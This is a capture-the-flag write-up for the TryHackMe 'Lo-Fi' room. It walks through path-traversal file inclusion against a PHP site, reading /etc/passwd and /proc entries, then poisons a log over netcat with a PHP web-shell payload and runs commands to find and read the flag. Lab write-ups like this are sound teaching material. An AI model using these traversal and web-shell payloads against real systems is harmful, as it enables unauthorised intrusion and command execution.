


# Lo-Fi

https://tryhackme.com/r/room/lofi

**Want to hear some lo-fi beats, to relax or study to? We've got you covered!**

## Overview

The challenge asks you to analyse a website and highlight, find the flag in the root directory.
In the description of the task, the author mentions two other LFI/RFI rooms.
There is only one task in the challenge

### Task 1

Climb the filesystem to find the flag!

The website is a php based solution where youtube videos linked in iframes are displayed.

#### Step 1 - Enumeration

Two parameters can be modified on the home page
http://10.10.83.116/?search=

http://10.10.83.116/?page=

search parameter not vulnerable

page parameter is better we can use file extraction

#### Step 2 - Find LFI

As a first step, let's look at the following methods

http://10.10.83.116/?page=/etc/passwd

The answer in this case is not yet positive: "HACKKERRR!! HACKER DETECTED. STOP HACKING YOU STINKIN HACKER!"

Ok, testing with full uri: http://10.10.83.116/?page=../../../../../../../../etc/passwd



#### Step 3 - Log poisoning 

How can we find the file if there is no hint at the beginning of the challenge?

First of all, we test the system for log poisoning vulnerability.

We know from the response header it is a Apache/2.2.22 (Ubuntu) server. So check these:

/var/log/apache2/access.log
/var/log/apache2/error.log
/var/log/httpd-error.log
/var/log/httpd-access.log
/var/log/httpd/access_log
/var/log/auth.log

They don't work, but the proc file system may still help.

Request: http://10.10.83.116/?page=../../../../../../../../proc/self/cmdline - Actual process name

Answer: /usr/sbin/apache2-DFOREGROUND

Check file descriptors under proc. 

Request: http://10.10.83.116/?page=../../../../../../../../proc/self/fd/6

Answer: 



We can use it for RCE. 

poison the server with netcat:
``` 
nc 10.10.83.116 80
GET /<?php system($_GET['c']); ?>

HTTP/1.1 404 Not Found
Date: Sat, 25 Jan 2025 16:44:56 GMT
Server: Apache/2.2.22 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 278
Connection: close
Content-Type: text/html; charset=iso-8859-1
```
#### Step 4 - Finding the flag 

Where is flag? 
http://10.10.83.116/?page=../../../../../../../../proc/self/fd/6&c=find%20/%20-name%20%22flag.txt%22%202%3E/dev/null

Answer:  "/flag.txt " 400 507 

We can look at the contents of the flag using the error that was originally exploited.
http://10.10.83.116/?page=../../../../../../../flag.txt


The takeaway from the writeup is that even if there is no hint, it is still possible to get the file out of the system.

